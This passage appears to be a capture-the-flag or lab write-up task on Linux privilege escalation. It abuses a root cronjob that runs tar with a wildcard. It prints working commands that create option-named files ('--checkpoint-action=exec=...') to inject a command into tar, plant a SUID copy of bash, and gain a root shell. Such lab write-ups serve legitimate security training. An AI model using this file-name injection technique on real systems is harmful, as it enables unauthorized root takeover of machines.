 No Answer

## TASK 17 : Privilege Escalation - Cron (Wildcards)
### Click 'Completed' once you have successfully elevated the machine

We can abuse cronjob where a wildcard is used with command tar in the file like "compress.sh" :

```console
TCM@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh

TCM@debian:~$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
{: .nolineno }

Exploitation :

```console
TCM@debian:~$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
TCM@debian:~$ ls 
myvpn.ovpn  overwrite.sh  runme.sh  shell.nse  tools  x.c
TCM@debian:~$ touch /home/user/--checkpoint=1
TCM@debian:~$ touch /home/user/--checkpoint-action=exec=sh\runme.sh
TCM@debian:~$ /tmp/bash -p
bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
bash-4.1# 
```
{: .nolineno }
